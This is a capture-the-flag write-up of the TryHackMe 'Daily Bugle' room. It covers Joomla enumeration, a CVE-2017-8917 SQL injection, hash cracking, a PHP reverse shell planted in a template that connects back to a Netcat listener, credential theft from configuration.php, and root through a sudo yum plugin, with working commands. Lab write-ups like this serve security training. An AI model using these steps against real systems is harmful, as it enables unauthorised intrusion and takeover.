# TryHackMe - Daily Bugle

## Overview

- **Room:** Daily Bugle
- **Platform:** TryHackMe
- **Difficulty:** Hard
- **Focus:** Joomla enumeration, SQL injection, credential extraction, authenticated Joomla administration, PHP reverse shells, Linux privilege escalation, and `sudo` misconfiguration.

---

## Attack Path

The compromise followed this chain:

```text
Nmap service enumeration
        ↓
Web server and Joomla identification
        ↓
Gobuster and Dirsearch enumeration
        ↓
Joomla 3.7.0 identification
        ↓
CVE-2017-8917 SQL injection
        ↓
Database user hash extraction
        ↓
John the Ripper password cracking
        ↓
Joomla administrator authentication
        ↓
Protostar template modification
        ↓
PHP reverse shell as apache
        ↓
Joomla configuration credential discovery
        ↓
Privilege escalation to jjameson
        ↓
sudo yum misconfiguration
        ↓
Root shell
```

---

# 1. Initial Enumeration

I started by running an Nmap scan against the target IP address to identify open ports, running services, and their versions.

```bash
nmap -sC -sV <TARGET_IP>
```

The `-sC` option runs Nmap's default scripts, while `-sV` attempts to identify the versions of the services running on discovered ports.

The scan returned the following results:

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)
```



The scan revealed three open ports:

- **22/tcp:** SSH running OpenSSH 7.4.
- **80/tcp:** HTTP running Apache 2.4.6 with PHP 5.6.40.
- **3306/tcp:** MySQL/MariaDB, which did not allow unauthenticated access.

The HTTP service identified the website as a Joomla installation. Nmap also retrieved the site's `robots.txt` file, which contained several directory paths.

Although these entries were marked as disallowed for search-engine crawlers, they were useful reconnaissance information. A `robots.txt` entry does not enforce access control; it simply provides instructions to compliant crawlers. I therefore used the listed paths as leads for further enumeration.

I opened the website in my browser to inspect its content.

The homepage contained an article about Spider-Man robbing banks.


On the right-hand side of the article was a login form.



I left the login form alone for the moment and returned to the terminal to enumerate the web server's directories.

---

# 2. Web Directory Enumeration

I started with Gobuster to identify commonly used directories and files.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

Gobuster performs directory and file brute-forcing against a web server. It sends HTTP requests for entries in the supplied wordlist and reports paths that return potentially interesting HTTP status codes.

The scan returned the following results:

```text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET_IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/administrator        (Status: 301) [Size: 242] [--> http://<TARGET_IP>/administrator/]
/bin                  (Status: 301) [Size: 232] [--> http://<TARGET_IP>/bin/]
/cache                (Status: 301) [Size: 234] [--> http://<TARGET_IP>/cache/]
/cgi-bin/             (Status: 403) [Size: 210]
/components           (Status: 301) [Size: 239] [--> http://<TARGET_IP>/components/]
/images               (Status: 301) [Size: 235] [--> http://<TARGET_IP>/images/]
/includes             (Status: 301) [Size: 237] [--> http://<TARGET_IP>/includes/]
/language             (Status: 301) [Size: 237] [--> http://<TARGET_IP>/language/]
/layouts              (Status: 301) [Size: 236] [--> http://<TARGET_IP>/layouts/]
/libraries            (Status: 301) [Size: 238] [--> http://<TARGET_IP>/libraries/]
/media                (Status: 301) [Size: 234] [--> http://<TARGET_IP>/media/]
/modules              (Status: 301) [Size: 236] [--> http://<TARGET_IP>/modules/]
/index.php            (Status: 200) [Size: 9278]
/plugins              (Status: 301) [Size: 236] [--> http://<TARGET_IP>/plugins/]
/robots.txt           (Status: 200) [Size: 836]
/templates            (Status: 301) [Size: 238] [--> http://<TARGET_IP>/templates/]
/tmp                  (Status: 301) [Size: 232] [--> http://<TARGET_IP>/tmp/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

The `/administrator/` directory was particularly interesting because it exposed the Joomla administration portal.

I wanted a more detailed view of the available directories and files, so I ran Dirsearch as well.

```bash
dirsearch -u http://<TARGET_IP>
```

Dirsearch performs web path enumeration using its own wordlists and can identify additional files and nested directories that a smaller Gobuster wordlist might miss.



The output included the following results:

```text
[08:49:07] 301 -  242B  - /administrator  ->  http://<TARGET_IP>/administrator/
[08:49:07] 200 -    5KB - /administrator/
[08:49:07] 200 -    2KB - /administrator/includes/
[08:49:07] 200 -    5KB - /administrator/index.php
[08:49:07] 200 -   31B  - /administrator/cache/
[08:49:08] 200 -   31B  - /administrator/logs/
[08:49:08] 301 -  247B  - /administrator/logs  ->  http://<TARGET_IP>/administrator/logs/
[08:49:17] 301 -  232B  - /bin  ->  http://<TARGET_IP>/bin/
[08:49:17] 200 -   31B  - /bin/
[08:49:19] 200 -   31B  - /cache/
[08:49:19] 301 -  234B  - /cache  ->  http://<TARGET_IP>/cache/
[08:49:20] 403 -  210B  - /cgi-bin/
[08:49:22] 200 -   31B  - /cli/
[08:49:23] 301 -  239B  - /components  ->  http://<TARGET_IP>/components/
[08:49:24] 200 -   31B  - /components/
[08:49:25] 200 -    0B  - /configuration.php
[08:49:45] 200 -    3KB - /htaccess.txt
[08:49:48] 200 -   31B  - /images/
[08:49:48] 301 -  235B  - /images  ->  http://<TARGET_IP>/images/
[08:49:49] 200 -   31B  - /includes/
[08:49:49] 301 -  237B  - /includes  ->  http://<TARGET_IP>/includes/
[08:49:49] 200 -    9KB - /index.php
[08:49:50] 404 -    3KB - /index.php/login/
[08:49:54] 301 -  237B  - /language  ->  http://<TARGET_IP>/language/
[08:49:54] 200 -   31B  - /layouts/
[08:49:55] 301 -  238B  - /libraries  ->  http://<TARGET_IP>/libraries/
[08:49:55] 200 -   31B  - /libraries/
[08:49:56] 200 -   18KB - /LICENSE.txt
[08:50:02] 301 -  234B  - /media  ->  http://<TARGET_IP>/media/
[08:50:02] 200 -   31B  - /media/
[08:50:06] 301 -  236B  - /modules  ->  http://<TARGET_IP>/modules/
[08:50:06] 200 -   31B  - /modules/
[08:50:22] 200 -   31B  - /plugins/
[08:50:22] 301 -  236B  - /plugins  ->  http://<TARGET_IP>/plugins/
[08:50:28] 200 -    4KB - /README.txt
[08:50:31] 200 -  836B  - /robots.txt
[08:50:50] 200 -   31B  - /templates/
[08:50:50] 301 -  238B  - /templates  ->  http://<TARGET_IP>/templates/
[08:50:50] 200 -    0B  - /templates/system/
[08:50:50] 200 -   31B  - /templates/index.html
[08:50:50] 200 -    0B  - /templates/beez3/
[08:50:50] 200 -    0B  - /templates/protostar/
[08:50:53] 301 -  232B  - /tmp  ->  http://<TARGET_IP>/tmp/
[08:50:53] 200 -   31B  - /tmp/
[08:51:04] 200 -    2KB - /web.config.txt

Task Completed
```

The `README.txt` file immediately stood out. I opened it in my browser and found a reference to version 3.7. This suggested that the website was running Joomla 3.7.0.



The enumeration also identified `configuration.php`. Although visiting a PHP file through a browser does not normally reveal its source code, discovering the file was still useful because it could contain application configuration and database credentials if we later obtained local file access.

---

# 3. Joomla Version Enumeration and SQL Injection

After identifying Joomla 3.7.0, I searched for publicly documented vulnerabilities affecting that version.

I used SearchSploit:

```bash
searchsploit joomla 3.7.0
```

The search returned the following results:

```text
---------------------------------------------- ---------------------------------
 Exploit Title                                | Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros| php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The important result was the SQL injection vulnerability in Joomla's `com_fields` component.

The vulnerability is tracked as **CVE-2017-8917**. It allows an unauthenticated attacker to manipulate database queries through vulnerable Joomla functionality, potentially exposing information stored in the application's database.

To make the exploitation process easier, I searched GitHub for an existing proof-of-concept implementation. I found the `Exploit-Joomla` repository by `stefanlucas`, which contained a Python script for exploiting this vulnerability.

I downloaded the script, saved it locally as `joomla.py`, and changed its permissions:

```bash
chmod 777 joomla.py
```

I then executed the script against the target:

```bash
python3 joomla.py http://<TARGET_IP>
```

The script retrieved a CSRF token, tested the SQL injection, identified the Joomla user table, and extracted the administrator account information.

The relevant output was:

```text
[-] Fetching CSRF token
[-] Testing SQLi
 - Found table: fb9j5_users
 - Extracting users from fb9j5_users
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '<REDACTED>', '', '']
 - Extracting sessions from fb9j5_session
```

The extraction revealed the Joomla administrator username, `jonah`, and a password hash.

I saved the recovered hash into a file called `hash.txt` so that I could attempt to crack it offline.

---

# 4. Cracking the Joomla Administrator Hash

I used John the Ripper with the `rockyou.txt` wordlist to test candidate passwords against the extracted hash.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

The `--wordlist` option specifies the password candidates John should test. The `--format=bcrypt` option tells John to interpret the supplied hash as bcrypt.



John successfully recovered the password.

I now had the administrator username and password, so I tested the credentials against the available login services.

First, I attempted to authenticate through SSH, but the login failed. I also tried the login form on the public-facing Daily Bugle homepage, which was unsuccessful.

This indicated that the recovered credentials were intended for a different authentication point.

I navigated to the Joomla administrator portal:

```text
http://<TARGET_IP>/administrator
```

I entered the recovered credentials and successfully authenticated to the Joomla administration interface.

---

# 5. Modifying the Joomla Template to Obtain an Initial Reverse Shell

With administrative access to Joomla, I looked for a way to execute PHP code through the web server.

Joomla allows administrators to manage installed templates through its administration interface. Template files are part of the website's server-side code, so modifying an executable PHP template file can provide a route to code execution.

In this case, I used the Protostar template.

## 5.1. Locate the Active Template

After logging into the Joomla administrator dashboard, I inspected the navigation menu on the left-hand side.

I scrolled down to the **Configuration** section and selected **Templates**.

The template management interface provided two relevant options:

- **Styles**
- **Templates**

I first opened the **Styles** tab to inspect which template was configured as the default.

The interface indicated that Protostar was the default template for the website.



This was important because I wanted to modify a template that the website was configured to use.

## 5.2. Open the Protostar Template Files

I then selected the **Templates** tab on the left-hand side.

From the available templates, I selected **Protostar**.



This opened the template file editor, allowing me to inspect and modify the files belonging to the selected template.

I located the `index.php` file.

This file is particularly important because it is the PHP entry point for the template. When Joomla renders a page using Protostar, the template's PHP code is processed by the web server.

Because I had administrator-level access to the template editor, I could modify this server-side file.

## 5.3. Replace the Template's PHP Code

I opened `index.php`, selected its existing contents, and replaced them with the PHP reverse shell code from PentestMonkey.

The reverse shell code needs to be configured with the attacker's reachable IP address and the port on which the listener will be waiting.

For this room, I used port `4444`.

**Important configuration details:**

- The IP address in the reverse shell must be the attacker's IP address, not the target's IP address.
- The port in the reverse shell must match the port used by Netcat.
- The attacking machine must be reachable from the target.
- The listener must be started before the PHP reverse shell is executed.

I saved the modified `index.php` using the green **Save** button at the top of the Joomla editor.

At this point, the reverse shell code had been placed on the server, but it had not necessarily executed yet. The next steps established the receiving connection and then triggered the modified PHP file.

## 5.4. Identify the Attacker IP Address

Before starting the listener, I needed to make sure that the reverse shell was configured to connect back to the correct address.

On the attacking machine, I could identify the available network interfaces with:

```bash
ip addr
```

I needed the IP address associated with the network interface that could communicate with the TryHackMe target.

The address used in the PHP reverse shell must be reachable from the target machine. Using an unrelated local, loopback, or incorrect interface address would cause the connection to fail.

For a typical TryHackMe AttackBox or VPN-based setup, this is the address of the interface used for the target network connection.

I used the corresponding attacker-side IP address in the PentestMonkey reverse shell code before saving the template.

## 5.5. Start the Netcat Listener

With the PHP reverse shell configured to connect to port `4444`, I returned to my terminal and started a Netcat listener:

```bash
nc -lnvp 4444
```

The options mean:

- `-l`: Listen for an incoming connection instead of initiating one.
- `-n`: Do not perform DNS lookups.
- `-v`: Enable verbose output so connection information is displayed.
- `-p 4444`: Listen on TCP port `4444`.

The listener waits for the target to initiate an outbound connection.

This is an important distinction: starting Netcat does not execute the reverse shell or connect to the target. It only prepares the attacking machine to receive the connection.

I left this terminal open and waiting.

## 5.6. Trigger the PHP Reverse Shell

With the listener running, I opened a browser and navigated to the modified template's PHP entry point:

```text
http://<TARGET_IP>/templates/protostar/index.php
```

This request caused the Apache web server to process the modified PHP file.

Because the file contained the PentestMonkey reverse shell code, executing it caused the target to attempt an outbound connection to the attacker IP address and port `4444`.

The listener received the incoming connection, giving me an initial shell on the target machine.



**Why this worked:**

1. I had authenticated to the Joomla administrator portal.
2. Joomla allowed me to edit the Protostar template files.
3. Protostar was configured as the default template.
4. I replaced the template's `index.php` with PHP reverse shell code.
5. I configured the shell to connect back to my attacker IP address on port `4444`.
6. I started Netcat to listen on that port.
7. I requested the modified PHP file through the web server.
8. Apache executed the PHP code, which initiated the reverse connection.

The initial shell was running as the web server account, `apache`.

## 5.7. Upgrade the Initial Shell

The initial Netcat shell was functional, but it did not provide a fully interactive terminal.

I upgraded it using Python's `pty` module:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

This spawned a Bash shell through a pseudo-terminal, making it easier to interact with the system and execute commands.

At this point, I had an interactive shell as the `apache` user.

---

# 6. Discovering Credentials and Escalating to jjameson

With the initial shell established, I started inspecting the filesystem for user accounts and potentially useful configuration files.

I navigated to `/home`:

```bash
cd /home
ls -la
```

The directory listing revealed a user named `jjameson`.

I attempted to access the account, but I did not have the required permissions.

I therefore needed to find additional credentials or another way to escalate my privileges.

## 6.1. Investigate Application Configuration Files

I initially attempted to use the `find` command to locate configuration files containing possible credentials, but that approach was not working as expected.

I remembered that the earlier Dirsearch scan had already identified an important file:

```text
/var/www/html/configuration.php
```

This was the Joomla configuration file.

Joomla stores database connection settings in this file, which can include the database username and password. Since I already had local access as the web server account, I checked whether I could read it directly from the filesystem.

I navigated to the website's document root:

```bash
cd /var/www/html
```

I listed the directory contents, including hidden files and permissions:

```bash
ls -la
```

I located `configuration.php` and displayed its contents:

```bash
cat configuration.php
```

The file contained a stored password that could be used for further authentication.



I now had a username, `jjameson`, and a password discovered in the Joomla configuration file.

## 6.2. Switch to the jjameson Account

I used `su` to switch from the `apache` account to `jjameson`:

```bash
su jjameson
```

I supplied the recovered password when prompted.

The authentication succeeded, and I was now operating as the `jjameson` user.

I checked the account's working directory and located the user flag.



---

# 7. Privilege Escalation to Root

After obtaining the user flag, I needed to escalate my privileges to root.

I generally begin Linux privilege-escalation enumeration by checking:

- Listening services and network connections with `ss -tunlp`.
- Sudo permissions with `sudo -l`.
- Scheduled tasks and cron jobs.
- Potentially useful system binaries and misconfigurations.
- Enumeration results from tools such as LinPEAS.

For this machine, the sudo permission check revealed the escalation path.

## 7.1. Enumerate Sudo Permissions

I ran:

```bash
sudo -l
```

The command lists the commands the current user is permitted to execute through `sudo`.

The output was:

```text
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin:/bin:/usr/sbin:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

The important entry was:

```text
(ALL) NOPASSWD: /usr/bin/yum
```

This meant that `jjameson` could execute `/usr/bin/yum` as any user, including root, without entering a sudo password.

The `yum` binary itself was therefore a potential privilege-escalation route.

## 7.2. Use the Yum Plugin Technique

I searched GTFOBins for a method of abusing the available `yum` sudo permission.

The technique uses a custom Yum configuration and plugin. Yum plugins can execute Python code during Yum's operation. By creating a plugin that launches a shell, then running Yum with the custom configuration through `sudo`, the plugin code executes with the privileges of the Yum process.

Since I was permitted to run Yum as root, the plugin could spawn a root shell.

I followed the technique using the following commands.

**Step 1: Create a temporary directory**

```bash
TF=$(mktemp -d)
```

This creates a temporary directory and stores its path in the `TF` variable. The directory will contain the custom Yum configuration and plugin files.

**Step 2: Create the main Yum configuration**

```bash
cat <<EOF >$TF/x
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
```

This configuration enables plugins and tells Yum to load them from the temporary directory.

**Step 3: Create the plugin configuration**

```bash
cat <<EOF >$TF/y.conf
[main]
enabled=1
EOF
```

This enables the custom plugin.

**Step 4: Create the Python plugin**

```bash
cat <<EOF >$TF/y.py
import os
import yum
from yum.plugins import TYPE_CORE

requires_api_version='2.1'

def init_hook(conduit):
    os.execl('/bin/sh', '/bin/sh')
EOF
```

The plugin imports the required Yum modules and defines an initialization hook.

When Yum loads the plugin, the `init_hook` function executes:

```python
os.execl('/bin/sh', '/bin/sh')
```

This replaces the running process with `/bin/sh`.

**Step 5: Execute Yum through sudo**

```bash
sudo yum -c $TF/x --enableplugin=y version
```

The command runs Yum with the custom configuration file, enables the plugin named `y`, and executes the `version` operation.

Because the command is executed through `sudo`, the plugin inherits root privileges. Its shell therefore runs as root.

I successfully obtained a root shell.

## 7.3. Retrieve the Root Flag

With root privileges, I navigated to the root user's home directory:

```bash
cd /root
```

I listed the directory contents and read the root flag:

```bash
cat root.txt
```



This completed the compromise of the Daily Bugle machine.

---

# Findings

## Joomla 3.7.0 SQL Injection

The Joomla installation was running version 3.7.0, which was vulnerable to CVE-2017-8917.

The SQL injection allowed database information to be extracted without first authenticating to the Joomla administrator portal. This exposed the administrator username and password hash, which could then be subjected to offline password cracking.

## Exposed Joomla Configuration Credentials

The Joomla configuration file contained a stored password.

After obtaining an initial shell as `apache`, I could read this file locally and recover credentials that allowed me to switch to the `jjameson` account.

## Joomla Template Modification

The Joomla administrator account had permission to modify the active Protostar template.

Replacing its `index.php` file with PHP reverse shell code allowed me to execute code on the target when the modified file was requested through the web server.

## Sudo Permission Misconfiguration

The `jjameson` account could execute `/usr/bin/yum` as any user without a password.

This permission could be abused through Yum's plugin functionality to execute a shell with root privileges.

---

# Vulnerabilities

| Vulnerability | Impact |
|---|---|
| CVE-2017-8917 - Joomla 3.7.0 SQL Injection | Unauthenticated database extraction, including the administrator password hash. |
| Weak or crackable administrator password | Allowed access to the Joomla administration portal after offline password cracking. |
| Excessive Joomla template editing permissions | Allowed an administrator to modify server-side PHP code and obtain an initial reverse shell. |
| Sensitive credentials stored in `configuration.php` | Exposed credentials that could be reused to access the `jjameson` account. |
| Misconfigured sudo permission for `/usr/bin/yum` | Allowed `jjameson` to execute a Yum plugin as root and obtain a root shell. |

---

# Final Result

I successfully compromised the Daily Bugle machine through a combination of Joomla SQL injection, password cracking, authenticated template modification, local credential discovery, and Linux privilege escalation.

The initial reverse shell was obtained by replacing the active Protostar template's `index.php` file with PentestMonkey's PHP reverse shell, starting a Netcat listener on port `4444`, and requesting the modified PHP file through the web server.

From the initial `apache` shell, I recovered credentials from Joomla's `configuration.php` file and switched to the `jjameson` account. I then abused the account's passwordless sudo permission for `/usr/bin/yum` to obtain root access.

---

# Attack Chain Summary

The complete attack path I followed to compromise the Daily Bugle machine was:

```text
Nmap service enumeration
        ↓
Joomla 3.7.0 identification
        ↓
Gobuster and Dirsearch enumeration
        ↓
CVE-2017-8917 SQL injection
        ↓
Joomla administrator hash extraction
        ↓
John the Ripper password cracking
        ↓
Joomla administrator login
        ↓
Protostar template index.php modification
        ↓
Netcat listener on port 4444
        ↓
PHP reverse shell triggered through the browser
        ↓
Initial shell as apache
        ↓
Joomla configuration.php credential discovery
        ↓
su to jjameson
        ↓
sudo -l identifies passwordless yum permission
        ↓
Yum plugin privilege escalation
        ↓
Root shell
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Joomla 3.7.0 SQL injection (CVE-2017-8917) | Enabled unauthenticated extraction of database information. |
| Weak administrator password | Allowed the extracted Joomla password hash to be cracked. |
| Joomla template file modification | Enabled PHP code execution through the web server. |
| Credentials stored in Joomla configuration | Allowed movement from `apache` to `jjameson`. |
| Passwordless sudo access to Yum | Enabled privilege escalation to root through a custom plugin. |

---

# Lessons Learned

This room demonstrated how an outdated content management system can expose several attack paths. Identifying the Joomla version was particularly important because it allowed me to research known vulnerabilities and discover CVE-2017-8917. Combining version enumeration with directory discovery and public exploit research provided a route to the administrator's database credentials.

The initial reverse shell also demonstrated the security impact of excessive administrative permissions within a CMS. Access to the Joomla template editor allowed me to modify executable PHP code. Starting the Netcat listener before requesting the modified template ensured that the attacking machine was ready to receive the outbound connection.

Finally, the room highlighted the importance of inspecting application configuration files after obtaining local access. The credentials in `configuration.php` enabled me to move from the web server account to `jjameson`. Checking `sudo -l` then revealed that Yum could be executed without a password, providing the final route to root.

The main lesson is that privilege escalation often depends on connecting information gathered during earlier stages of enumeration. A configuration file discovered during web reconnaissance later became useful after obtaining a shell, while a simple sudo permission check exposed the final escalation path.
